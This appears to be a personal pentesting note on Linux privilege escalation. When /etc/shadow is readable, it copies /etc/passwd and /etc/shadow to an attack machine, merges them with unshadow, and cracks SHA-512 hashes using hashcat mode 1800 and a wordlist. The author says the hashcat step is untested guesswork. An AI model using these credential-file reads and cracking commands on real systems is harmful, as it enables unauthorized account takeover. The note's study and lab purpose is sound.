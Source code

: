 -- -
If you have read permissions set on shadow file, then you can unshadow it and then start cracking hashes.
#### Enum
![[Weak File Permissions#^52dfd9]]
Copy+Paste `/etc/passwd` and `/etc/shadow` from cat output and paste it over to your attack machine. 
#### Exploit
```bash
# built into kali, may need to be installed anywhere else
# /etc/passwd -> passwd
# /etc/shadow -> shadow
unshadow <passwd> <shadow>
unshadow ./passwd ./shadow

# then copy+paste the users with an associated hash/login to a new unshadow file
```
Check the hash [here](https://hashcat.net/wiki/doku.php?id=hashcat), search for the number between the dollar signs, in this case it should start with `$6$`, which is `sha512`. In hashcat, this is the mode `1800`:

Not sure if you can directly run hashcat against the unshadow file, but probably not. Most likely take out the hash after the `$6$` to a colon, then run **only** the hash through hashcat. will see in practice whenever I find that vector. 
```
hashcat -m 1800 hash /usr/share/wordlist/rockyou.txt
```